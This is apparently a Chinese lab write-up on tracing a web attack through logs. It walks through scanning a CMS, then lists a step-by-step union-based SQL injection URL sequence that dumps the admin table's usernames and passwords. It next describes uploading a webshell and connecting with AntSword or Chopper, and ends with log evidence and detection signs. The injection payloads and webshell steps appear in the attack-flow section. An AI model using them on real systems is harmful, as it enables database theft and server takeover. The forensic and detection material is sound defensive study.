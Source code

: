 ## Task

- 具体化攻击流程
- 一一对应日志记录和攻击行为

## 具体化攻击流程

![image-20200606192504274](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200606192504.png)

![image-20200606191359924](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200606191400.png)

信息收集（扫描器）：

![image-20200607140002087](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200607140002.png)

找到漏洞页面，进行注入：

```
http://ip/cms/show.php?id=38
http://ip/cms/show.php?id=38/
http://ip/cms/show.php?id=38-0
http://ip/cms/show.php?id=38 order by 14
http://ip/cms/show.php?id=38 order by 16
http://ip/cms/show.php?id=38 order by 15
http://ip/cms/show.php?id=38 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
http://ip/cms/show.php?id=-38 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
http://ip/cms/show.php?id=-38 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,database(),15
http://ip/cms/show.php?id=-38 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,group_concat(table_name),15 from information_schema.tables where table_scheme='cms'-+
http://ip/cms/show.php?id=-38 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,group_concat(column_name),15 from information_schema.columns where table_scheme='cms_users'-+
http://ip/cms/show.php?id=-38 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,group_concat(username,0x7e,password),15 from cms_users-+

```

找到管理员账号密码，后台上传文件，传一个大马之类的东西。通过antsword/菜刀等工具连接，得到shell

## 攻击溯源

扫描证据

![image-20200607160752222](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200607160752.png)

注入证据

![image-20200607160934351](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200607160934.png)

上传证据

![image-20200607161125451](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200607161125.png)

![image-20200607161200390](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200607161200.png)

## 分析特征

- 对于扫描来说，短时间内会进行大量的连接请求，**通常这些请求的响应以404为主**
- 对于注入来说，**应当注意sql语句的关键字**
- 对于文件上传来说，**应当注意上传目录名（upload/attachment）有没有可疑的文件后缀（php等）**



关联（事件内部/）

不只要局限于sql 抽象成方法论

